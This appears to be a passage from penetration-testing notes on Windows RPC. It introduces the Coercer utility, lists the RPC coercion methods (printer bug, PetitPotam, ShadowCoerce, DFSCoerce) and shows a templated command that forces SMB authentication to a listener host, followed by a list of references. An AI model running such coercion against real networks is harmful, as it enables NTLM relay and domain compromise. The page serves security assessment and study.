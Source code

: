 ### Automated coercing using various techniques with Coercer

The [`Coercer`](https://github.com/p0dalirius/Coercer) Python utility can be
used to coerce `SMB` authentication using a number of functions on different
`RPC` interfaces:
  - `MS-RPRN` "printer bug"
  - `MS-EFSR` PetitPotam
  - `MS-FSRVP` ShadowCoerce
  - `MS-DFSNM` DFSCoerce

```
coercer.py -d '<DOMAIN>' -u '<USERNAME>' -p '<PASSWORD>' -l <LISTENER_IP | LISTENER_HOSTNAME> [-t <TARGET_IP | TARGET_HOSTNAME> | -f <TARGETS_FILE>]
```

--------------------------------------------------------------------------------

### References

https://pubs.opengroup.org/onlinepubs/9629399/chap2.htm


Network Security Assessment: Know Your Network

https://publications.opengroup.org/c706

https://book.hacktricks.xyz/pentesting/135-penstesting-wrpc

https://actes.sstic.org/SSTIC06/Dissection_RPC_Windows/SSTIC06-article-Pouvesle-Dissection_RPC_Windows.pdf

http://etutorials.org/Networking/network+security+assessment/Chapter+9.+Assessing+Windows+Networking+Services/9.2+Microsoft+RPC+Services/

https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/cca27429-5689-4a16-b2b4-9325d93e4ba2

https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rpce/290c38b1-92fe-4229-91e6-4fc376610c15

https://tools.ietf.org/html/rfc1831

https://redmondmag.com/articles/2004/02/01/the-magic-of-rpc-over-http.aspx

https://www.windows-security.org/windows-service/rpc-endpoint-mapper

https://support.microsoft.com/en-us/help/832017/service-overview-and-network-port-requirements-for-windows

https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/96952411-1d17-4fe4-879c-d5b48a264314

https://kb.juniper.net/InfoCenter/index?page=content&id=KB12057&pmv=print&actp=&searchid=&type=currentpaging

https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/

https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/
